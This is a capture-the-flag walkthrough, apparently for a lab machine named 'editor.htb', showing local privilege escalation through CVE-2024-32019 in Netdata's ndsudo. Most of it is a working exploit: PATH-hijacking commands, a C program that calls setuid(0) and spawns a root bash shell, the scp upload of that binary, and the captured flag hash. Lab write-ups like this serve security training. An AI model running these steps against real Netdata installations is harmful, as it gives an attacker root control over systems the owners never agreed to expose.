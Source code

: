Netdata binaries running with SUID or root privileges are interesting. They may have local privilege escalation vulnerabilities, especially older Netdata versions. In fact if we run:

`/opt/netdata/usr/sbin/netdata -v`

`netdata v1.45.2`

This version of netdata is correlated to `CVE-2024-32019` where as a user I have permission to run ndsudo:

The idea of the poc is to place an executable with a name that is on ndsudo’s list of commands (e.g. nvme) in a writable path. Set the PATH environment variable so that it contains this path and finally run ndsudo with a command that will run our executable.

`https://github.com/netdata/netdata/security/advisories/GHSA-pmhq-4cxq-wj93`

Lets make this work:

`mkdir -p /tmp/exploit`

`echo -e '#!/bin/bash\n/bin/bash' > /tmp/exploit/nvme`

`chmod +x /tmp/exploit/nvme`

`export PATH=/tmp/exploit/:$PATH`

`/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list`

```
oliver@editor:/tmp/exploit$ id
uid=1000(oliver) gid=1000(oliver) groups=1000(oliver),999(netdata)
```

It was indeed running the shell but I am still `oliver` and not `root`. Thats not good. Lets try something different but the idea will remain the same. Since I don't have any gcc, lets try to load a compiled `nvme.c` file through ssh.

```
#include <unistd.h>

int main() {
    setuid(0);   
    setgid(0);   
    execl("/bin/bash", "bash", "-p", NULL);
    return 0;
}
```

With this script we will hard-reset the `uid` and `guid` in order to guaranteed ourself root shell and run the shell.

`gcc nvme.c -o nvme`

`chmod +x nvme`

`scp nvme oliver@editor.htb:/tmp/exploit`

Once the upload of the `nvme.c` file is completed lets run again the command.

`/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list`

We are finally root! Lets retrive the flag!

`ffaf237b3f0adce0ffc985b9a93ffc82`
